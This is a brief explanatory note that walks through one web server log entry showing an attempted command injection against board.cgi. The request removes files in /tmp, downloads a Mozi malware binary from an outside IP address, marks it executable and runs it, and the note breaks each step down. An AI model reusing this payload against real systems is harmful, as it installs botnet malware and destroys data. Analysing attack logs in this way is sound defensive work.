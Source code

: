 ## Here is a cyber-attack example

The content sent to the server tries to get it to install and run malicious software. All part of the territory...


```
"GET /board.cgi?cmd=cd+/tmp;rm+-rf+*;wget+http://182.59.105.211:56191/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+varcron HTTP/1.0" 404 870
```

```
HTTP GET 
Paylod: /board.cgi? and tries to run:
      cmd = 
          cd /tmp
          rm -rf *
          wget http://182.59.105.211:56191/Mozi.a
          chmod 777 Mozi.a
          /tmp/Mozi.a varcron        (seems to imply /var/cron) 
 HTTP/1.0
 404 means not found; trailing '870' is ? timing ? 
 ```
